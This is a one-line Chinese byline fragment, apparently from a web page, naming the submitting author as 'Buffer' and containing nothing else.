投稿作者：Buffer